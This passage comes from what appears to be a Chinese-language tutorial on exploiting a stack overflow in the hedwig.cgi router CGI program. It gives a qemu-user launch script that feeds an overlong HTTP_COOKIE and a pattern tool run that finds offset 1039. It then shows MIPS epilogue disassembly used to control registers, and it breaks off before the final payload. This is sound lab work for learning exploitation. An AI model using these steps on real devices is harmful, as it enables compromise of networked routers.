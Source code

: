 #### <a class="reference-link" name="qemu-user%E6%A8%A1%E5%BC%8F%E6%9C%AC%E5%9C%B0%E6%A8%A1%E6%8B%9F"></a>qemu-user模式本地模拟

##### <a class="reference-link" name="%E8%B0%83%E8%AF%95%E5%90%AF%E5%8A%A8%E8%84%9A%E6%9C%AC"></a>调试启动脚本

首先是编写启动脚本，gedit local.sh，内容如下：

```
#!/bin/sh
INPUT="uid=1234"
TEST="uid=1234`cat content`"
LEN=$(echo -n "INPUT" |wc -c)
PORT="1234"
cp $(which qemu-mipsel-static) ./qemu
echo $INPUT | chroot . ./qemu -E CONTENT_LENGTH=$LEN -E CONTENT_TYPE="application/x-www-form-urlencoded" -E REQUEST_METHOD="POST" -E HTTP_COOKIE=$TEST -E REQUEST_URI="/hedwig.cgi" -g $PORT /htdocs/web/hedwig.cgi
rm -f ./qemu
```

这个调试启动脚本与之前习题的启动脚本，不一样的地方是添加了`-E`，这个是用来添加环境变量的。因为在`cgibin`这个程序中，我们可以看到有很多地方都运用了`getenv`这个函数，它的作用就是用来获取环境变量的值，因为很多例如`HTTP_COOKIE`的取值，就是同这个方式，根据程序分析而来，我们需要设置如上的这些环境变量。（这些环境变量就是报文头部中请求的部分内容）。

##### <a class="reference-link" name="%E6%B5%8B%E8%AF%95%E5%81%8F%E7%A7%BB%E9%87%8F"></a>测试偏移量

在启动之前，还有一个事情就是要生成`content`数据，我们还是像上一篇一样，先用`patternLocOffset.py`去生成测试偏移的`content`，并最终得到偏移为1039。<br>
具体的流程是：

```
python patternLocOffset.py -c -l 2000 -f content
sudo ./local.sh
gdb-multiarch htdocs/cgibin
#这里调试htdocs/cgibin，是因为hedwig.cgi是一个链接文件，他的
```

##### <a class="reference-link" name="%E6%9C%AC%E5%9C%B0%E6%A8%A1%E6%8B%9F%E7%9A%84exp"></a>本地模拟的exp

接下来就是写`content`的生成脚本，也就是本地模拟的exp，因为程序最后即将返回的时候可以设置很多寄存器的值，所以我们也就省去了先调用`scandir`的那一段gadget了。最后的内容如下所示：

```
.text:00409A28                 lw      $ra, 0x4E8+var_4($sp)
.text:00409A2C                 move    $v0, $s7
.text:00409A30                 lw      $fp, 0x4E8+var_8($sp)
.text:00409A34                 lw      $s7, 0x4E8+var_C($sp)
.text:00409A38                 lw      $s6, 0x4E8+var_10($sp)
.text:00409A3C                 lw      $s5, 0x4E8+var_14($sp)
.text:00409A40                 lw      $s4, 0x4E8+var_18($sp)
.text:00409A44                 lw      $s3, 0x4E8+var_1C($sp)
.text:00409A48                 lw      $s2, 0x4E8+var_20($sp)
.text:00409A4C                 lw      $s1, 0x4E8+var_24($sp)
.text:00409A50                 lw      $s0, 0x4E8+var_28($sp)
.text:00409A54                 jr      $ra
.text:00409A58                 addiu   $sp, 0x4E8
```

